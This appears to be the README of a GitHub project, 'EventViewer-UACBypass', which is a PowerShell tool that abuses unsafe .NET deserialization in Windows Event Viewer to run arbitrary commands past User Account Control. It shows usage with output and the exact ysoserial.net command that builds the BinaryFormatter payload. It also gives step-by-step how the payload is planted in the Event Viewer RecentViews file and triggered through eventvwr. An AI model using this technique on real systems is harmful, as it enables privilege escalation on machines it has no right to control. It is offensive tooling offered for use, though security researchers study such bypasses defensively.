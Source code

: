 # EventViewer-UACBypass

- RCE through Unsafe .Net Deserialization in Windows Event Viewer which helps bypass UAC.
- Full credits to [Orange Tsai](https://twitter.com/orange_8361)

### Usage
```ps1
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```

### Working
i) First, the script adds commands to be run to the file C:\Windows\Tasks\EventViewerRCE.ps1
- `Stop-Process -name mmc*` : Is used to close Microsoft Management Console.
- After that the command to be executed is added.


ii) Then it crafts payload which runs C:\Windows\Tasks\EventViewerRCE.ps1 script. The base64 payload was generated using [ysoserial.net](https://github.com/pwntester/ysoserial.net) :
```ps1
ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "powershell.exe -nop -exec bypass C:\Windows\Tasks\EventViewerRCE.ps1"
```
iii) When WriteFile function is executed, it checks if the `Event Viewer` folder exists in AppData and it it doesn't then we create the folder. Finally storing our base64 decoded payload in RecentViews file under this folder.

iv) In the end, eventvwr is executed which then executes our payload.

### Reference
- https://twitter.com/orange_8361/status/1518970259868626944
- https://twitter.com/orange_8361
